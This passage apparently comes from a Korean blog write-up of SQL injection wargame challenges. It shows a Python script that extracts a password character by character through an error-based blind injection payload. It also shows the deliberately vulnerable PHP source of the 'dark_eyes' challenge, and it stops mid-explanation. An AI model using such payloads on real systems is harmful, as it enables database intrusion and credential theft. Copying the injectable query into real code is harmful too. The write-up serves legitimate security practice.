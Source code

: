```python
    param = {'pw': f"' or if(ord(substr(pw,{str(len)},1))={str(pw)},(select 1 union select 2), 0)#"}
    res = requests.get(url=url,  params=param, cookies=cookie)
    if "Subquery" in res.text:
      password += chr(pw)
      print(password)
      break
        
print(password.lower())
```
<br>

## Dark_eyes
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```
### exploit
Iron_golem 문제와 비슷하지만 필터링하는 것이 더 많다.<br>
Iron_golem문제처럼 '을 입력해봤지만 빈 화면이 출력되었다.<br>

Iron_golem에서 사용했던 방법은 조건이 참이면 Subquery 에러를 발생시켜 값을 검증하는 것이었다.<br>
하지만 **if**를 사용할 수 없고 에러가 출력되지 않으니 다른 방법을 사용해야한다.

![mysql-test](/assets/img/post/mysql-test.png)
